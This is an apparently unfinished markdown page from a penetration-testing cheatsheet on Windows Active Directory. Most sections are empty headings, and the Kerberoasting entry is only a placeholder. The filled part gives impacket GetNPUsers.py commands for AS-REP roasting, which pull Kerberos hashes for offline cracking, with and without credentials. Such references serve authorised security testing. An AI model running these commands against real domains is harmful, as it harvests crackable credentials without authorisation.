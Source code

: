 ```yaml
---
layout: default
parent: Windows
grand_parent: Pentest Cheatsheets
title: Windows Active Directory
nav-order: 1
---
```


<details open markdown="block">
  <summary>
    Table of contents
  </summary>
  {: .text-delta }
1. TOC
{:toc}
</details>

**Enumeration**
===============

**Anonymous/Unauthenticated**
--------------


**Authenticated - Unpriv**
--------------------------


**Authenticated - Priv**
------------------------


**Attacks**
==============

**ASREPRoast**
--------------

Using **impacket** GetNPUsers.py with anonymous LDAP access. Output file is in default format which is JTR format.

<details>
<summary><u>More Info</u></summary>
<p>
TARGET_DOMAIN - FQDN of target domain as structured domain.tld
<br>
DC_IP - IP of domain controller you want to run against
</p>
</details>

```
python3 GetNPUsers.py TARGET_DOMAIN/ -dc-ip DC_IP -request -outputfile TARGET_FILE.hash
```

Still **impacket** GetNPUsers.py with authenticated LDAP access. Output file is in is instead formatted for hashcat.


<details>
<summary><u>More Info</u></summary>
<p>
TARGET_DOMAIN - FQDN of target domain as structured domain.tld
<br>
DC_IP - IP of domain controller you want to run against
</p>
</details>

```
python3 GetNPUsers.py TARGET_DOMAIN/USER_NAME:USER_PASS -request -format hashcat -outputfile TARGET_FILE.hash
```

Also can use rubeus.exe to run asreproast from a windows based machine

**Kerberoasting**
--------------

```
test
```
